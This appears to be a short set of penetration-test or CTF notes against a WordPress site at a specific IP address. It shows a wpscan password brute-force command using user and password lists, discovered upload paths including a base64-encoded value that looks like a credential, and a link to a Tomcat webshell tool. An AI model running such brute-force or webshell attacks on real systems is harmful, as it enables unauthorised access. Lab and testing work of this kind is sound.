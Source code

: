 target = http://138.197.91.116/

 wpscan --url http://138.197.91.116 --max-threads 10 --login-uri "http://138.197.91.116/wp-login.php\?redirect_to\=http%3A%2F%2F138.197.91.116%2Fwp-admin%2F\&reauth\=1" –-passwords ./pass.txt --usernames ./users.txt -e > wpscan_verbose
 WordPress 6.7
 http://138.197.91.116/wp-admin/upload.php?item=450 ---> http://138.197.91.116/wp-content/uploads/2024/06/context.pdf description = S3poaGRsaXc6IGxVNTZtNGZkazA0NW9OZjg3ek1tckZ0MkQ=
 http://138.197.91.116/wp-content/uploads/2024/06/video_2024_intro.mp4


 https://github.com/p0dalirius/Tomcat-webshell-application